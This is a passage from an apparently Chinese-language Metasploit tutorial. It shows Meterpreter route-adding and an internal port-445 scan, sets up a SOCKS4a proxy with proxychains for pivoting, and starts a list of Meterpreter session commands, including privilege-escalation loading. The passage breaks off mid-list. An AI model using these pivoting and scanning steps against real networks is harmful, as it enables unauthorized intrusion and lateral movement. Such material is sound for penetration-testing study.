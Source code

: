 ```bash
run get_local_subnets
background
route add 192.168.10.0 255.255.255.0 1
route print
```

在当前路由情况下进行扫描

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.10.0/25
set PORTS 445
run
```

添加完路由后，还可以利用msf自带的sock4a模块进行Socks4a代理

```bash
msf> use auxiliary/server/socks4a 
msf > set srvhost 127.0.0.1
msf > set srvport 1080
msf > run
# 然后vi /etc/proxychains.conf 
# 添加 socks4 127.0.0.1 1080
# 最后proxychains 使用Socks4a代理访问
```



Meterpreter命令
----

### 会话命令

- `help`
  
  打开 Meterpreter 使用帮助
  
- `run scriptname`
  
  运行 Meterpreter 脚本，在 scripts/meterpreter 目录下可查看到所有脚本
  
- `use priv`
  
  加载特权提升扩展模块，来扩展 Meterpreter 库
  
- `rev2self`
  
  回到控制目标主机的初始用户账户下
  
- `setdesktop number`
  
  切换到另一个用户界面(该功能基于哪些用户已登录)
  
- `background`
  
  将当前 Meterpreter shell 转为后台执行
  
- `quit`
  